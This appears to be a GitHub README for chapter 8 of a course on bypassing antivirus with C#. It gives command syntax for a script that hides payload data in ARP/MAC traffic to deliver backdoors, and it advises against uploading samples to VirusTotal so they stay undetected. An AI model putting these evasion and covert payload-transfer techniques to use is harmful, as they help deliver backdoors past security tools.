 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 8 : Transferring Backdoor Payloads by ARP Traffic

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 8 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH8

Related Video : 

Video 1 for chapter 8: 

Video 2 for chapter 8:



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# Syntax :

Example Step1: (Client Side ) ./NativePayload_ARP.sh -s text-file eth0 delay x"

Example Step2: (Server Side ) ./NativePayload_ARP.sh -a vboxnet target-IPv4 "

example IPv4:192.168.56.101 : ./NativePayload_ARP.sh -s mytext.txt eth0 delay 3"

example IPv4:192.168.56.1 : ./NativePayload_DNS2.sh -a vboxnet 192.168.56.101 "

Description: with Step1 you will inject Data to MAC address for eth0 , with Step2 you can have this text file via Scanning target-system by ARP traffic (Using Arping tool)"



![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x1.png)


![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x2.png)
